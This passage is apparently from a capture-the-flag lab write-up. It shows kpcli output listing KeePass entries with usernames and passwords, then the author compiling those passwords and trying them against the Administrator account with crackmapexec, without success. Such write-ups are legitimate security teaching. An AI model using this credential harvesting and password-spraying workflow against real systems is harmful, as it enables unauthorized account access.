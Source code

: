     kpcli:/> show -f 4

     Path: /CEH/
    Title: It's a secret
    Uname: admin
     Pass: F7WhTrSFDKB6sxHU1cUn
      URL: http://localhost:8180/secret.jsp
    Notes: 

    kpcli:/> show -f 5

     Path: /CEH/
    Title: Jenkins admin
    Uname: admin
     Pass: 
      URL: http://localhost:8080
    Notes: We don't even need creds! Unhackable! 

    kpcli:/> show -f 6

     Path: /CEH/
    Title: Keys to the kingdom
    Uname: bob
     Pass: lCEUnYPjNfIuPZSzOySA
      URL: 
    Notes: 

    kpcli:/> show -f 7

     Path: /CEH/
    Title: Walmart.com
    Uname: anonymous
     Pass: Password
      URL: http://www.walmart.com
    Notes: Getting my shopping on



### Try Passwords

I'll collect the ones that look like passwords into a list:



    oxdf@hacky$ cat passwords 
    12345
    S1TjAtJHKsugh9oC4VZl
    pwndyouall!
    F7WhTrSFDKB6sxHU1cUn
    lCEUnYPjNfIuPZSzOySA
    Password



I'll pass that to `crackmapexec` for the Administrator user, but none
work:


